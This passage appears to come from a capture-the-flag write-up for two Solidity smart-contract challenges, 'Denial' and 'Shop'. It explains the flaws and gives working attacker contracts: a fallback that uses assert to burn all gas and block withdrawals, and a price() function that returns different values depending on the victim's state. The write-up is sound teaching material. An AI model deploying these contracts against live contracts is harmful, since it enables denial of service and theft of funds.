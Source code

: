 ## 20. Denial

The goal is to make the `withdraw` call fail.
We control the `partner` contract.
The contract writer's idea was that even if we revert in our contract using `revert` / `require` only our function call would fail but the withdrawal to the original owner would still continue.
While this is true, notice that our function is being called using `.call` without specifying an explicit gas limit.
We can just consume all available gas in the transaction resulting in the caller function to be out of gas and fail.
Contrary to `revert` and `require`, the `assert` instruction consumes all gas.

```solidity
contract DenialAttacker {
    fallback() external payable {
      // assert consumes all (!) gas
      assert(false);
    }
}
```

## 21. Shop

The goal is to buy the item for less than its `price`.
This is the same as the 11th **Elevator** challenge just with a gas restriction on the two calls.

We need to find a way to distinguish the two calls and return `100` for the first one and `0` for the second one.
Notice how the challenge contract's `isSold` storage variable is being changed in-between these calls.
We can make use of this to distinguish both calls:

```solidity
abstract contract IShop {
    uint public price;
    bool public isSold;
    function buy() external virtual;
}

contract ShopAttacker {
    IShop public challenge;
    uint256 timesCalled = 1;

    constructor(address challengeAddress) {
        challenge = IShop(challengeAddress);
    }

    function attack() public {
        challenge.buy();
    }

    function price() external view returns (uint256) {
        return challenge.isSold() ? 0 : 100;
    }
}
```
